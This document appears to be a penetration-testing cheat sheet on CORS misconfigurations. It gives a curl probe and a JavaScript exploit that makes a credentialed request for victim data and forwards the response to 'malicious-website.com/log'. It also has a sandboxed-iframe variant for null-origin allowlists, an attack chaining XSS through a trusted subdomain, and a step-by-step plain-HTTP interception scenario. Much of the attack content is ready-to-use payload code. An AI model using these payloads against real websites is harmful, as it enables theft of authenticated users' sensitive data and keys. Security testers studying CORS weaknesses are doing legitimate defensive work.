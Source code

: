 
# CORS

Test for CORS vulnerabilities by looking for

``` http
access-control-allow-credentials: true
access-control-allow-credentials: true
```

``` http
curl -I -H "Origin: https://example.com" "https://vulnerable-endpoint.com"
```

Standard CORS exploit.

``` js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
    location='//malicious-website.com/log?key='+this.responseText;
};
```

If the Origin header only accepts null, use an iframe to satify the allowlist.

``` js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

If app A trusts app B origin, and app B is vulnerable to XSS, then app A is vulnerable to XSS.

* App A request:

``` http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

* App A response

``` http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

If app B (subdomain.vulnerable-website.com) is vulnerable to XSS, then you can exploit app A.

``` http
https://subdomain.vulnerable-website.com/?xss=<script>cors-exploit</script>
```

If app A trusts app B origin, and app B is not using TLS, then app A TLS is vulnerable to leaking unencrypted data.

1. The victim user makes any plain HTTP request.
2. The attacker injects a redirection to:
```http://trusted-subdomain.vulnerable-website.com```
3. The victim's browser follows the redirect.
4. The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to: ```https://vulnerable-website.com```
5. The victim's browser makes the CORS request, including the origin: ```http://trusted-subdomain.vulnerable-website.com```
6. The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
7. The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.

If an intranet site trusts an external origin that is vulnerable, then the intranet site can be vulnerable as well.

